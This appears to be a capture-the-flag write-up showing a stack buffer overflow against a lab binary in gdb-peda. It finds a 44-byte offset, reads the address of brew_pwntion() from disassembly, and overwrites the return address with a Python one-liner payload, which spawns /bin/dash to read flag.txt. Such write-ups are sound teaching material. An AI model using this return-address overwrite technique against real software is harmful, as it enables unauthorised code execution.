 The address the program segfaulted on is `0x42424242`. Nice! That is the B's 
we inserted in my oneline script. That means the padding is 44, as we see in the
oneliner below. 
```
gdb-peda$ r <<< `python -c 'print "A" *44 + "BBBB"'`
```

Next step is to find the address of the function `brew_pwntion()`. That is
an easy step using gdb-peda! We simply use the gdb command `disas` and add the
function name as parameter. Then we disassemble the function, and may grab the
address at the top of the function.

```
gdb-peda$ disas brew_pwntion 
Dump of assembler code for function brew_pwntion:
   0x080486e6 <+0>:	push   ebp
   0x080486e7 <+1>:	mov    ebp,esp
   0x080486e9 <+3>:	push   ebx
   0x080486ea <+4>:	sub    esp,0x4
   0x080486ed <+7>:	call   0x80488cd <__x86.get_pc_thunk.ax>
   0x080486f2 <+12>:	add    eax,0x160a
   0x080486f7 <+17>:	sub    esp,0xc
   0x080486fa <+20>:	lea    edx,[eax-0x139c]
   0x08048700 <+26>:	push   edx
   0x08048701 <+27>:	mov    ebx,eax
   0x08048703 <+29>:	call   0x8048550 <system@plt>
   0x08048708 <+34>:	add    esp,0x10
   0x0804870b <+37>:	nop
   0x0804870c <+38>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x0804870f <+41>:	leave  
   0x08048710 <+42>:	ret    
End of assembler dump.
gdb-peda$ 
```

We grab the first address, `0x080486e6`, and put it into our oneliner instead 
of the B's! First, remember the little chat we had about little endian input 
from the previous pwntions task? We need to do the same here, and end up with
the following oneliner:
```
gdb-peda$ r <<< `python -c 'print "A" *44 + "\xe6\x86\x04\x08"'`
```

Giving the following output:
```
python -c 'print "A" *44 + "\xe6\x86\x04\x08"'`
My awesome banner!

Professor maritio_o:
> I've made a function for you, my magnificent students! Do a little brewing and show me what you are good for!

Student: [New process 20889]
process 20889 is executing new program: /bin/dash
[New process 20890]
process 20890 is executing new program: /bin/cat
cat: flag.txt: No such file or directory
[Inferior 3 (process 20890) exited with code 01]
Warning: not running or target is remote
gdb-peda$ 
```
